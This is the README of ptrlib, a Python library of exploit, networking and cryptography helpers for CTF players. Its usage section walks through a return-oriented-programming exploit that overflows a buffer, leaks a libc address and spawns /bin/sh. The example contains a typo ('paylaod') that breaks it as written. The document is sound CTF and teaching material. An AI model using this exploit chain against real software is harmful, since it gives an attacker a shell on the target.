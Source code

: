 ptrlib
====

![Python application](https://github.com/ptr-yudai/ptrlib/workflows/Python%20application/badge.svg)

Python library which bundles security-related utilities.

## Description
Ptrlib is a Python library for CTF players.
It's designed to make it easy to write a complex program of cryptography, networking, exploit and so on.

## Requirements
Supports: Python 3.x

Library Dependency:
- pycryptodome

External Program:
- When you use `SSH` function, the following programs are required:
  - ssh (Default path: `/usr/bin/ssh`)
  - expect (Default path: `/usr/bin/expect`)

## Usage
Basic examples are available at [/examples](https://bitbucket.org/ptr-yudai/ptrlib/src/master/examples/).

## Quick Document
There are many functions in ptrlib but let's see how to use it for pwn.
You can run executable or create socket like this:
```python
sock = Process("./pwn01")
sock = Process(["./pwn01", "--debug"])
sock = Socket("localhost", 1234)
sock = SSH("example.com", 22, username="ubuntu", password="p4s$w0rd")
sock = SSH("example.com", 22, username="ubuntu", identity="./id_rsa")
```
If you have the target binary or libc, it's recommended to load the binary first.
```python
elf = ELF("./pwn01")
libc = ELF("./libc.so.6")
```
And you can use useful methods such as `got`, `plt`, `symbol`, `section` and so on.
The following is the pwn example of ROP stager.
```python
plt_gets = elf.plt("gets")
stage2 = elf.section(".bss") + 0x400

payload = b'A' * 0x108
payload += flat([
  rop_pop_rdi,
  elf.got("puts"),
  elf.plt("puts"),
  rop_pop_rdi,
  stage2,
  elf.plt("gets"),
  rop_pop_rbp,
  stage2,
  rop_leave_ret
], map=p64)
sock.sendlineafter("Data: ", payload)

libc_base = u64(sock.recvline()) - libc.symbol("puts")
logger.info("libc base = " + hex(libc_base))
libc.set_base(libc_base)
payload = b'A' * 8
paylaod += p64(rop_pop_rdi)
payload += p64(next(libc.find("/bin/sh")))
payload += p64(libc.symbol("system"))
sock.sendline(payload)

sock.interactive()
```

## Install
Run `pip install ptrlib` or `python setup.py install`.

## Licence

[MIT](https://github.com/tcnksm/tool/blob/master/LICENCE)

## Author

[ptr-yudai](https://github.com/ptr-yudai)

## Contributor
Feel free to make a pull request / issue :)

- [theoremoon](https://github.com/theoremoon)
  - Added/fixed several cryptography functions
  - Added buffering of Socket/Process
  - Added status check (CI test)

